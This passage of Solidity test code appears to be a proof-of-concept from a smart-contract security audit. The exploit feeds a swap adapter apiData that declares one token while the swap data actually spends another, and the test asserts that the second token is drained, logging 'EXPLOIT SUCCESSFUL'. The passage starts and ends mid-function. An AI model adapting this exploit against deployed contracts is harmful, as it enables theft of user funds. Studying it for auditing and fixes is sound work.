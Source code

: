 ```solidity
            IERC20(tokenA), // pretend to use tokenA in apiData
            amountToTransfer,
            exploitSwapData // but use swapData that uses tokenB with large amount
        );

        // Create a delegation from vault to subVault
        Delegation memory vaultDelegation = _getVaultDelegationCustom();
        Delegation memory subVaultDelegation =
            _getSubVaultDelegationCustom(EncoderLib._getDelegationHash(vaultDelegation), amountToTransfer);

        Delegation[] memory delegations = new Delegation[](2);
        delegations[1] = vaultDelegation;
        delegations[0] = subVaultDelegation;

        // Execute the swap with our malicious data
        vm.prank(address(subVault.deleGator));
        delegationMetaSwapAdapter.swapByDelegation(maliciousApiData, delegations);

        // Check final balances
        uint256 vaultTokenAAfter = tokenA.balanceOf(address(vault.deleGator));
        uint256 adapterTokenBAfter = tokenB.balanceOf(address(delegationMetaSwapAdapter));
        uint256 vaultTokenCAfter = tokenC.balanceOf(address(vault.deleGator));
        console.log("Final balances:");
        console.log("TokenA:", vaultTokenAAfter);
        console.log("TokenB:", adapterTokenBAfter);
        console.log("TokenC:", vaultTokenCAfter);

        // The TokenA balance should remain the same (not used despite apiData saying it would be)
        assertEq(vaultTokenABefore - vaultTokenAAfter, amountToTransfer, "TokenA balance shouldn't change");

        // The TokenB balance should be drained (this is the actual token used in the swap)
        assertEq(adapterTokenBBefore - adapterTokenBAfter, amountToTransfer, "TokenB should be drained by the largeAmount");

        // The TokenC balance should increase
        assertEq(vaultTokenCAfter - vaultTokenCBefore, outputAmount, "TokenC should be received");

        console.log("EXPLOIT SUCCESSFUL: Used TokenB instead of TokenA, draining more funds than expected!");
    }

    // Helper to encode custom apiData for the exploit
    function _encodeExploitApiData(
        string memory _aggregatorId,
        IERC20 _declaredTokenFrom,
        uint256 _declaredAmountFrom,
        bytes memory _swapData
    )
        internal
        pure
        returns (bytes memory)
    {
        return abi.encodeWithSelector(IMetaSwap.swap.selector, _aggregatorId, _declaredTokenFrom, _declaredAmountFrom, _swapData);
    }

    // Helper to encode custom swapData for the exploit
    function _encodeExploitSwapData(
        IERC20 _actualTokenFrom,
        IERC20 _tokenTo,
        uint256 _actualAmountFrom,
```